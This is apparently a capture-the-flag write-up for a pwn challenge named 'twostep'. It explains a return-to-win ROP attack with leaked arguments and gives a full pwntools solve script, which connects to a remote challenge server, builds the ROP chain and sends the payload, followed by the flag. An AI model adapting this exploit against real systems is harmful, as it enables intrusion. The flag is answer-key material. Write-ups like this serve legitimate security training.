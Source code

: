 ```sh
checksec --file twostep
```

![alt text](image.png)

we go the the function right_foot_creep1 to set var=1 first

We need to supply corrct aruguments to `right_foot_creep1` and `left2_foot_creep_FORBIDDEN` and before calling `left2_foot_creep_FORBIDDEN` we need to call `right_foot_creep1` to set variable value `1` which is necessary

This is return to win with parameters
Also the arguments that we have to pass are being leaked by the binary, here is the solve script
We need to pass the arguments as integers so make sure to have correct format

```python
#!/usr/bin/env python3

from pwn import *

exe = './twostep'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'

padding = 440

p = remote('165.227.103.166', 6003)

output = p.recv()
pattern = r'(\d+) HOURS and (\d+) MINUTES'
ar = re.findall(pattern, output.decode('utf-8'))
print(ar)
arg1, arg2 = ar[0]
# ROP object


rop = ROP(elf)
rop.right_foot_creep1(int(arg1))
rop.left2_foot_creep_FORBIDDEN(int(arg2))

# Build the payload
payload = flat(
    asm('nop')*padding,
    rop.chain()
)

# Save the payload to file
write('payload', payload)

# Send the payload
p.sendline(payload)

# Get flag
p.interactive()
```

**_flag : CIT{n0w_y3r_d4nc1n_thE_t3xas_2step_wbiw28qfe3gr1ddyBiq093kt310}_**
